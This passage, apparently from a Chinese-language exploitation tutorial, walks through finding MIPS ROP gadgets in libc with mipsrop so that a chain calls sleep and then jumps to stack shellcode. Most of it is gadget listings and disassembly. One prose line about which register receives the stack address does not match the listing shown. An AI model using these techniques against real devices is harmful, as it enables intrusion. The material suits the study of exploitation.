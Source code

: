 ```
----------------------------------------------------------------------------------------------------------------
|  Address     |  Action                                              |  Control Jump                          |
----------------------------------------------------------------------------------------------------------------
|  0x0001CE80  |  move $t9,$s3                                        |  jalr  $s3                             |
..........
|  0x000949EC  |  move $t9,$s3                                        |  jalr  $s3                             |
....
```
例如
```
.text:000949EC                 move    $t9, $s3
.text:000949F0                 jalr    $t9 ; uselocale
.text:000949F4                 move    $s0, $v0
.text:000949F8
.text:000949F8 loc_949F8:                               # CODE XREF: strerror_l+15C↓j
.text:000949F8                 lw      $ra, 0x34($sp)
.text:000949FC                 move    $v0, $s0
.text:00094A00                 lw      $s3, 0x24+var_sC($sp)
.text:00094A04                 lw      $s2, 0x24+var_s8($sp)
.text:00094A08                 lw      $s1, 0x24+var_s4($sp)
.text:00094A0C                 lw      $s0, 0x24+var_s0($sp)
.text:00094A10                 jr      $ra
.text:00094A14                 addiu   $sp, 0x38
```
通过这个 gadget 我们先跳到 s3 的寄存器执行 sleep ，再通过控制的 ra 寄存器进行下一步操作
### 2. jmp shellcode

  下一步就是跳到 shellcode ，要跳到shellcode 我们先需要获得栈地址

  我们先用 `Python>mipsrop.stackfinder()`

  获得 如下 gadget

  ```asm
  .text:00095B74                 addiu   $a1, $sp, 52
  .text:00095B78                 sw      $zero, 24($sp)
  .text:00095B7C                 sw      $v0, 20($sp)
  .text:00095B80                 move    $a3, $s2
  .text:00095B84                 move    $t9, $s5
  .text:00095B88                 jalr    $t9
  ```
  该 gadget 可以将栈地址， 即 $sp+24 的值赋值给 $a0 ，那么这个栈就是我们即将填充 shellcode 的地方， $s5 可控，最后这段 gadget 会跳往 $s5 , 那么我们只需要再找一个直接 jr $a0 的gadget 即可
  ```
  Python>mipsrop.find("move $t9, $a1")
  ----------------------------------------------------------------------------------------------------------------
  |  Address     |  Action                                              |  Control Jump                          |
  ----------------------------------------------------------------------------------------------------------------
  |  0x000FA0A0  |  move $t9,$a1                                        |  jalr  $a1                             |
  |  0x0012568C  |  move $t9,$a1                                        |  jalr  $a1                             |
  |  0x0012F4A8  |  move $t9,$a1                                        |  jr    $a1                             |
  |  0x0013032C  |  move $t9,$a1                                        |  jr    $a1                             |
  ```
